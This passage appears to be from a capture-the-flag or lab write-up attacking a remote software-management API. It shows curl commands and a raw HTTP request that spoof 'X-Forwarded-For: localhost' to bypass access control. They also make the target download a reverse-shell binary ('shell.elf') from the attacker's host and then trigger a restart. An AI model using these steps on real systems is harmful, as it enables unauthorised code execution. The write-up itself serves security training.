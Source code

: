 ```shell
cp shell.elf > app

curl -v -X POST -d '{"user":"clumsyadmin", "url":"http://192.168.45.215:8000/shells/app"}' -H "Content-Type: application/json" -H "X-Forwarded-For: localhost" http://192.168.245.134:13337/update
```

```http
POST /update HTTP/1.1

Host: 192.168.214.134:13337

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

X-Forwarded-For: localhost

Content-Type: application/json

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Upgrade-Insecure-Requests: 1

Content-Length: 69



{"user":"clumsyadmin", "url":"http://192.168.45.215:8000/shells/app"}
```

Restarting the application didn't seem to connect back again, lets curl the restart endpoint and see whats happening.

```shell
curl http://192.168.214.134:13337/restart -H "X-Forwarded-For: localhost"

<html>
    <head>
        <title>Remote Service Software Management API</title>
        <script>
            function restart(){
                if(confirm("Do you really want to restart the app?")){
                    var x = new XMLHttpRequest();
                    x.open("POST", document.URL.toString());
                    x.send('{"confirm":"true"}');
                    window.location.assign(window.location.origin.toString());
                }
            }
        </script>
    </head>
    <body>
    <script>restart()</script>
    </body>
</html>
```
